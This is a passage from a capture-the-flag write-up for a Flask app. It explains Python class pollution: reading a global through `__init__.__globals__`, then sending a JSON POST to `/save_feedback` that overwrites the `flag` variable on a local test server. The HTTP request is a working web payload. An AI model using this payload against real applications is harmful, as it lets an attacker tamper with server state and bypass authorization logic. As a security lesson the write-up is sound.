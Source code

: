 ```python
flag={'__name__': 'app.routes', [...], 'app': <Flask 'app'>, [...], 'flag': {...}, 'Feedback': <class 'app.routes.Feedback'>, [...]}
```

In here, we can see a lot of built-in classes, as well as the running Flask application `app` object.

This is because in the `co2/app.py`, the Flask object is called `app`.

But most importantly, we can also see **the `flag` variable**! Let's read that variable's value!

```python
flag = feedback.__init__.__globals__['flag']
```

> Note: The `__globals__` special attribute returns a dictionary object, that's why we'll need to use the `['<key_here>']` syntax. 

```
flag='false'
```

As expected, it's boolean `False`!

## Exploitation

Now that we know how to get the `flag` variable by using `__init__.__globals__['flag']`, we can pollute it with string `true`!

Let's test it in our local environment!

**To do so, we'll send a POST request to `/save_feedback` with the following JSON body:**
```http
POST /save_feedback HTTP/1.1
Host: localhost:1337
Cookie: session=.eJwlzkEOwkAIAMC_7NkDy8IC_YyhC0SvrT0Z_66J84J5t3sdeT7a9jquvLX7M9rWNESqArEAVHCIdQCWvmuf0xQXuyImLjIG8MIkhAAaPSZlDuxqZQg1yIUKrLw4MtLcfU2sGG6LhKY6M6MgY-61qEsCabVf5Drz-G96-3wBOFMuUQ.Zozftw.Q_HN_NwdRGrGpCl4NjPSjxXdOcw
Content-Length: 7
Content-Type: application/json

{
    "title":"literally_anything",
    "content":"literally_anything",
    "rating":"literally_anything",
    "referred":"literally_anything",
    "__init__":{
        "__globals__":{
            "flag": "true"
        }
    }
}
```

> Note: Remember, this route requires authentication.
